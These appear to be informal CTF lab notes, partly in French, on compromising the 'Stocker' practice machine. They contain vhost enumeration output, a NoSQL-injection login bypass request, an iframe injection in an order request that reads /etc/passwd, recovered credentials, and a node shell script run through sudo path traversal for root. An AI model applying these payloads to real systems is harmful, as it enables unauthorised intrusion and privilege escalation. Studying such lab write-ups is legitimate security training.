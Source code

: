 ```yaml
---
Platform: linux
Category: ctf
Difficulty: easy
Tags:
Status: pending
public: true
IP: 10.10.11.196
---
```


![[Stocker-1.png]]

```
└─# gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/06 23:13:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 10409 / 220561 (4.72%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/06 23:14:15 Finished

```

vhost trouvé via vhost enumeration : dev.stocker.htb

Bypass de l'authent avec au format JSON une NoSQL injection :

```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 54
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AFhbvDc7SEo_kF1-Bq2JuLGxucLWMeG5V.8UeivYzWZ%2BTMk30M8JbOTskUP1MWxYSf6%2BW3My5HcCo
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null}}
```

Tentative de SSTI avec ${7*7} et

Brute force du username : angoose

Brute force du password : b3e795719e2a644f69838a593dd159ac

"$;|^{{}}''"

{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0}

user length : 7  angoose

password length : 32 chars

il y a un endpoint /api/products

							/api/po/

						
- il y a peut être d'autre endpoint en 2 chars ??
- revoir si on ne peut pas ajouter un product ou en modifier 1 ???
- pour peut être faire une SSTI ou LFI (via l'image) ?
- Voir à rebruteforcer et lister les bad chars (status  != 302)
	- voir ce qu'on pourraît faire avec ca ...?
					------------------
SSFI :

```
POST /api/order HTTP/1.1

Host: dev.stocker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://dev.stocker.htb/stock

Content-Type: application/json

Origin: http://dev.stocker.htb

Content-Length: 214

Connection: close

Cookie: connect.sid=s%3Avl0rPp-i53IWRGNVdk7aCDRGnBn-yuyG.InPe1bsghz6TrAW2SEdKTwYuWY%2FTpy0bRLDr3Dh5jME



{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=/etc/passwd height=900 width=500></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

password : IHeardPassphrasesArePrettySecure (from /var/www/dev/index.js)

privesc

```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

using sudo path traversal

```bash
# cat /tmp/rebrec/shell.js
const { spawn } = require('child_process')
const shell = spawn('sh',[], { stdio: 'inherit' })
shell.on('close',(code)=>{console.log('[shell] terminated :',code)})
```

```bash

```sudo /usr/bin/node /usr/local/scripts/../../../../../tmp/rebrec/shell.js


```
